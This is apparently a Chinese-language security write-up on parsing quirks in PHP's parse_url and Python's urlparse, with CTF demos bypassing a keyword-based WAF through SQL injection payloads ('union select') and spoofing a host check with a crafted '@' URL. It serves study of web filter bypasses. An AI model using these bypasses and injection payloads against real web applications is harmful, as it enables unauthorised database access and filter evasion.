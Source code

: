 ### 端口解析tricks
```
<?php

$url = "/baidu.com:80";
$url1 = "/baidu.com:80a";
$url2 = "//pupiles.com/about:1234";
$url3 = "//baidu.com:80a";

var_dump(parse_url($url));
var_dump(parse_url($url1));
var_dump(parse_url($url2));
var_dump(parse_url($url3));
```

我们来看一下输出结果:

```
bool(false)
/home/lj/bin/php/bin/parse1.php:11:
array(1) {
  'path' =>
  string(14) "/baidu.com:80a"
}
/home/lj/bin/php/bin/parse1.php:12:
array(3) {
  'host' =>
  string(11) "pupiles.com"
  'port' =>
  int(1234)
  'path' =>
  string(11) "/about:1234"
}
/home/lj/bin/php/bin/parse1.php:13:
array(2) {
  'host' =>
  string(9) "baidu.com"
  'port' =>
  int(80)
}
```

第一种情况解析错误，但只要我们在端口后加一个字符，就又可以解析出path了


第二种情况我们在路径后面加上`:` 还是可以解析出端口号

第三种情况，说明对端口号做了intval类型转换。

我们可以看一下python 的urlparse解析出来的结果
```
ParseResult(scheme='', netloc='', path='/baidu.com:80', params='', query='', fragment='')
ParseResult(scheme='', netloc='', path='/baidu.com:80a', params='', query='', fragment='')
ParseResult(scheme='', netloc='pupiles.com', path='/about:1234', params='', query='', fragment='')
ParseResult(scheme='', netloc='baidu.com:80a', path='', params='', query='', fragment='')
```

## 路径解析tricks

```
$url4 = "//upload?/test/";
$url5 = "//upload?/1=1&id=1";
$url6 = "///upload?id=1";

var_dump(parse_url($url4));
var_dump(parse_url($url5));
var_dump(parse_url($url6));
```

php7输出结果为:
```
array(2) {
  'host' =>
  string(7) "upload?"
  'path' =>
  string(6) "/test/"
}
F:\sublime\php\audit\5\parse2.php:22:
array(2) {
  'host' =>
  string(7) "upload?"
  'path' =>
  string(9) "/1=1&id=1"
}
F:\sublime\php\audit\5\parse2.php:23:
bool(false)
```

1. `//upload?`如果是`//`, 则被解析成host, 后面的内容如果有`/`,会被解析出path，而不是query了。

这个trick可以用来添加混淆参数，从而可以保护好其他的参数。

2. 如果path部分为`///`，则解析错误，返回False



python 的urlparse解析也有这个问题
```
ParseResult(scheme='', netloc='', path='/upload', params='', query='/test/', fragment='')
ParseResult(scheme='', netloc='upload', path='', params='', query='/test/xx/', fragment='')
ParseResult(scheme='', netloc='upload', path='/test/', params='', query='', fragment='')
```

### host解析tricks



参考； http://pupiles.com/%E8%B0%88%E8%B0%88parse_url.html

另外，parse_url一般会用来解析$SERVER变量，其中的几个常用变量：
```
echo $_SERVER['REQUEST_URI']."<br/>";
echo $_SERVER['QUERY_STRING']."<br/>";
echo $_SERVER['HTTP_HOST']."<br/>";

#访问http://localhost:3000/php/audit/5/parse1.php?url=baidu.com#test
>>>
/php/audit/5/parse1.php?url=/baidu.com
url=/baidu.com
localhost:3000
```

可以看到REQUEST_URI 是path+query部分(不包含fragment)

QUERY_STRING: 主要是`key=value`部分

HTTP_HOST 是 `netloc+port` 部分。

更多的$_SERVER的值请查看:http://php.net/manual/zh/reserved.variables.server.php

### demo

demo1:
2016asisctf中的一题

```
<?php 
function waf(){
    $INFO = parse_url($_SERVER['REQUEST_URI']);
    var_dump($INFO);
    var_dump($_GET);
    parse_str($INFO['query'], $query);
    $filter = ["union", "select", "information_schema", "from"];
    foreach($query as $q){
        foreach($filter as $f){
            if (preg_match("/".$f."/i", $q)){ 
                die("attack detected!");
            }
        }
    }

    $sql = "select * from ctf where id='".$_GET['id']."'";
    var_dump($sql);
}
waf();
```

我们只需要传入: `http://localhost:83//parse3.php?/1=1&id=1%27%20union%20select%201,2,3%23`

这样，就可以绕过waf函数的绕过。

因为parse_url解析后的REQUEST_URI为:
```
array (size=2)
  'host' => string 'parse3.php?' (length=11)
  'path' => string '/1&id=1%27%20union%20select%201,2,3%23' (length=38)
```

但是我们的$_GET 的参数是可以获取到我们的两个参数:
```
array (size=2)
  '/1' => string '' (length=0)
  'id' => string '1' union select 1,2,3#' (length=22)
```

我们只要加一个混淆参数`/1=1` 就可以让parse_url的解析失败。

第二种绕过方式: `http://localhost:83///parse3.php?id=1%27%20union%20select%201,2,3%23` 

我们只需要在path加`///` 三斜杠，就会让parse_url解析失败，导致无法过滤参数。

### 网鼎杯第三场comein
```
<?php
ini_set("display_errors",0);
$uri = $_SERVER['REQUEST_URI'];
if(stripos($uri,".")){
    die("Unkonw URI.");
}
if(!parse_url($uri,PHP_URL_HOST)){
    $uri = "http://".$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$host = parse_url($uri,PHP_URL_HOST);
var_dump(parse_url($uri));
if($host === "c7f.zhuque.com"){
    setcookie("AuthFlag","flag{*******}");
}
```

这里stripos 绕过只需要我们第一位是`.`即可。

重点是绕过parse_str函数。

payload: 

    ..@c7f.zhuque.com/..//index.php

![image](85991F83F52E467CBE72F74628ED7571)

我们来看一下parse_str解析出来的结果:

```
$url7 = "http://localhost..@c7f.zhuque.com/..//index.php";
var_dump(parse_url($url7));

>>>
array(4) {
  'scheme' =>
  string(4) "http"
  'host' =>
  string(14) "c7f.zhuque.com"
  'user' =>
  string(11) "localhost.."
  'path' =>
  string(14) "/..//index.php"
}
```

parse_str 把@前面的内容当作user:password 的认证信息了,从而解析出host为`c7f.zhuque.com`

这题我们没法在浏览器中直接访问payload, 因为浏览器的解析规则会认为`@`是一个重定向，从而调整到c7f.zhuque.com网站。

我们直接抓包来看一下apache的解析结果。

apache 成功解析出了`/index.php`的内容。而且必须是`..//` 才能解析出index.php

> 注意apache,浏览器，parse_uri的解析规则是不一样的，apache的解析规则就是按照请求包里面的host来解析的，但浏览器是按照[scheme]://[user:pass@]host:port/path?key=value#fragment` 这样来解析出来host,然后构造请求包的。 parse_url虽然是依照浏览器的要求来解析的，但也会出现一些问题。


参考； http://skysec.top/2017/12/15/parse-url%E5%87%BD%E6%95%B0%E5%B0%8F%E8%AE%B0/